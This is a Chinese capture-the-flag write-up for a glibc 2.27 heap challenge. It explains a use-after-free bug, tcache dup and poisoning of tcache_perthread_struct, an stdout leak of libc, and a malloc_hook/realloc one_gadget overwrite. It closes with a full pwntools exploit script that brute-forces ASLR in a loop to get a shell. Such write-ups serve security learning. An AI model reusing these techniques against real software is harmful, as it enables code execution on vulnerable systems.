

## 写在前面：

在之前做这道题的时候[SWPUCTF_2019_p1KkHeap](https://www.cnblogs.com/ZIKH26/articles/16632897.html),就受到了tcache dup+tcache poisoning来爆破申请tcache_perthread_struct结构体的启发，结果在做这道题的时候就遇见了这种手法。由于还需要打io_leak再次爆破半个字节，因此这种手法成功的概率只有1/256。

## 保护策略：


## 漏洞所在&&程序分析：

### 漏洞所在：

存在UAF漏洞如下：


### 程序分析：

这道题只有add函数和delete函数，并且限制了两个函数的执行次数。delete函数只能执行4次，add函数只能执行15次。

然后delete函数的话只能释放最近一次执行add函数申请出来内存空间的地址。add函数最多只能申请0x7f大小的堆块，也不存在溢出。

## 利用思路：

### tcache_struct_attack：

存在UAF漏洞，我们打一个tcache dup。由于tcache_perthread_struct结构体是和分配出来的堆块存在固定偏移，因此tcache poisoning去修改末尾两个字节即可，改为x000(x我们需要爆破一下，概率为1/16，调试的时候关闭ASLR就不用爆破了)。

当爆破成功时，我们就可以将tcache_perthread_struct申请出来了，然后我们就可以控制任意tcache链表中的头指针，以及链表中堆块的数量。

接着我们修改0x250这条链上的count为7，我们将刚刚申请出来的tcache_perthread_struct给释放掉，该堆块的大小为0x250，由于0x250这条链上的count为7了，所以再次释放就进入了unsorted bin中。（如下图） 




由于下次从这个0x250堆块中分割一定的内存，就可以让unsorted bin中的fd和bk指针落在我们想要的tcache链上。接着再次申请0x10的内存，这样就可以去编辑刚刚的fd和bk指针了，这里我们去编辑bk指针，将其修改为stdout地址(需要爆破)，然后再次释放掉这个0x10的堆块，让其进入fastbin中，等之后使用。

编辑前后，如下图


下图是我做出来之后，懒的再关闭ASLR了，所以直接set改了一下内存值。


然后我们申请一个0x60大小的堆块，就可以申请出来stdout结构体了，打io leak泄露libc地址。

由于之前我们释放了那个0x10的堆块，此时我们再申请回来(它一直在fastbin中),这次写入malloc_hook-8的地址(因为one_gadget都不通，只能用realloc函数来调整栈帧了)

如下图，此时的realloc_hook已经出来了，只要我们申请0x50的堆块，就可以去编辑它了。


最终调整栈帧打one_gadget即可获取shell。

完事了关闭ASLR爆破打远程就行了。说实话这个概率是1/256，但我的脸比较黑，大多时候要爆个三百次左右才出来。

## EXP:

exp里的tcache_struct_attack函数是我自定义出来的，因为每次想伪造tcache_struct里的数据，都要去数一下对应的size中的值，感觉有一点麻烦，就顺便写了个函数去指定size写下对应count的值以及地址。

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
#context.log_level='debug'
d_d=0x98C
d_a=0x99F
def add(size,content):
    p.sendlineafter('Your choice:',str(1))
    p.sendlineafter("Input the size:",str(size))
    p.sendlineafter('Input the content:',content)


def delete():
    p.sendlineafter('Your choice:',str(2))

def pwn():
    add(0x7f,'a')
    delete()
    delete()
    #debug(p,'pie',d_d,d_a,0xDB5,0xD2B)
    add(0x7f,p16(0xc010))
    add(0x7f,'')
    payload=tcache_struct_attack({0x250:7,0x130:1})
    add(0x7f,payload)
    delete()
    add(0x50,'abcd')
    add(0x10,p64(0)+p16(0x6760))
    
    delete()
    add(0x60,p64(0xfbad1887)+p64(0)*3+b'\x00')
    leak_libc=recv_libc()
    libc_base=leak_libc-0x3ed8b0
    log_addr('libc_base')
    if libc_base&0xfff==0:
        print("success!!!")
        pause()
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    realloc=libc_base+libc.symbols['realloc']
    one_gadget=search_og(1)

    add(0x10,p64(malloc_hook-8))
    add(0x50,p64(one_gadget+libc_base)+p64(realloc+8))
    
    add(0x10,'')
    p.interactive()

i=0
while 1:
    log('Number of blasting',str(i))
    p,e,libc=load("a","")
    libc=ELF('/home/hacker/Desktop/buu64-libc-2.27.so')
    try:
        pwn()
    except:
        p.close()
    i=i+1
```

这里是爆了355次才出来....

